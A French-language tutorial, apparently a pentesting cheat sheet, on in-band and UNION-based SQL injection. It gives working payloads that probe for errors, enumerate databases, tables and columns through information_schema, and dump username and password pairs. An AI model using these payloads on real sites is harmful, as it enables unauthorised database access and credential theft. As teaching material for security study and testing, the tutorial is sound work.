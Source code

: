 # In-Band SQL injection

Ce type d'injection SQL est le plus utile pour obtenir facilement des informations sur la structure de la base de données car les messages d'erreur de la base de données sont imprimés directement sur l'écran du navigateur.

## Découverte SQLi 

La clé pour découvrir l'injection SQL basée sur les erreurs est de: 

- Casser la requête SQL en essayant certains caractères jusqu'à ce qu'un message d'erreur soit produit ; il s'agit le plus souvent des caractères comme:

```sh
' -> %27
" -> %22
# -> %23
; -> %3B
) -> %29
```

> Le fait de recevoir un message d'erreur confirme l'existence d'une vulnérabilité SQL Injection

## Injection sur UNION

Ce type d'injection utilise l'opérateur SQL UNION avec une instruction SELECT pour renvoyer des résultats supplémentaires à la page.



**1 - Renvoyer les données au navigateur sans afficher de message d'erreur.**

```sql
?id=0 UNION SELECT 1
```

Cette instruction produit un message d'erreur vous informant que _l'instruction UNION SELECT a un nombre de colonnes différent de celui de la requête SELECT d'origine._ 

Essayons mais ajoutons une autre colonne jusqu'a le message d'erreur disparais:

```sql
?id=1 UNION SELECT 1,2,...
```


**2 - Afficher nos données**

Cela peut simplement être fait en changeant l'identifiant de l'article de `1 à 0`

```sql
?id=0 UNION SELECT 1,2,...
```

Maintenant l'article est simplement composé du résultat de la sélection UNION

**3 - Récupérer des informations plus utiles.**

On peut remplacer 1 par `null`

```sql
-- Obtenir le nom de la base de données:
0 UNION SELECT 1,2,database()

-- Affiche la version du serveur
0 UNION SELECT null, version()
```

Lister des tables qui se trouvent dans cette base de données:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'

-- ou 

0 UNION SELECT null,table_name FROM INFORMATION_SCHEMA.tables
```

Trouver la structure des tables (colones):

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '{db_table_name}'

-- ou 

0 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{db_table_name}'
```

Récupérer les informations:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM {db_table_name}

-- ou 

0 UNION SELECT null, concat(user,0x0a,password) FROM {db_table_name}
```
